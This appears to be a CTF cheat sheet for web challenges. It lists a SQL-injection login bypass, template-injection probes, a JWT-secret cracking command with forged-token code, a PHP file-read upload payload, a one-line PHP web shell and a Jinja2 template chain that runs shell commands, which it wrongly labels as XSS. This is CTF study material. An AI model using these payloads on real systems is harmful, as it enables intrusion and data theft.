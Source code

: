 # WEB CHALLENGES

## Useful Tips And Resource

1. Use ```dirb``` to find out some directories we can view.
2. Useful SQLi -> ``` admin';--``` (works most of the time)
3. See for Template Injection by ```{{4+4}}``` if it shows 8 , then it's a SSTL.
4. [File Upload Bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass) 
5. [Web Exploits](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)
6. [Pen Testing Handbook](https://blueteamdope.gitbook.io/penetration-testing-playbook/)
7. If you Find SSTI use ```{{config}}```
8. ZipSlip Vuln [SRC](https://snyk.io/research/zip-slip-vulnerability)
9. Command For using symlink and then upload -> 
    <img src="../Assets/sl.png">
10. Another type of zip vuln -> 
    <img src="../Assets/zipvuln.png">

<hr>

### Foobar CTF

1. If JWT is given , try to see it via [JWT](https://jwt.io/) . Now we need a valid and secret signature to crack it. One way to do it is via John . <code> john --wordlist=/home/luc/Pobrane/rockyou.txt --format=HMAC-SHA256 jwt.txt </code> and then <code> john --show jwt.txt </code> Now you are good to go .
Code For Node ->
    ```js
    $ node 
    > const jwt = require('jsonwebtoken')
    > var token = jwt.sign({ 'user': 'admin' },'badboy', { algorithm:'HS256',noTimestamp:true});
    > console.log(token) 
    ```

2. There was a server side template injection problem . You can refer to [SSTI](https://szymanski.ninja/en/ctfwriteups/2021/foobar/lotion/) for details.

3. If you get upload vulnreability try to upload this php code 
    ```php
        <?php
        $filestring = file_get_contents('/home/user/flag/flag.txt');
        print $filestring;
        ?> 
    ```
4. Or you can try 
    ```php
    <?php system($_GET['cmd']); ?>
    ```
5. XSS Vuln -> ```{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}```